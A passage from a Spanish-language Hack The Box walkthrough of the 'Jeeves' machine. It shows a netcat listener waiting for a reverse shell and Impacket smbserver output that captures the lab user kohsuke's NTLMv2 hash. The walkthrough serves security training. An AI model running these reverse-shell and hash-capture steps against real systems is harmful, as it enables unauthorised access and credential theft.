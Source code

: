 Vamos a ponernos en escucha para directamente enviarnos una `reverse shell`

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
```

Y bueno vamos a escapar las barras para que no entre en conflicto vamos a darle a **Execute**

![](/assets/images/htb-writeup-jeeves/web14.png)

Y ganamos acceso ademas tenemos un **Hash** `NTLMV2`

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49678)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:c23a012c38f0f7005de8ee2b9a5c45c4:010100000000000000f5b20e48add901859a5b91331600a700000000010010004c0058006f0072007a0078004c004b00030010004c0058006f0072007a0078004c004b00020010005a0042005700500078004c006c004400040010005a0042005700500078004c006c0044000700080000f5b20e48add90106000400020000000800300030000000000000000000000000300000ecd30e6e2741e888fe19c320d42d3424341eac95c921e6f32cf839ae34398fa60a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:parrotsec)
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] AUTHENTICATE_MESSAGE (\,JEEVES)
[*] User JEEVES\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
```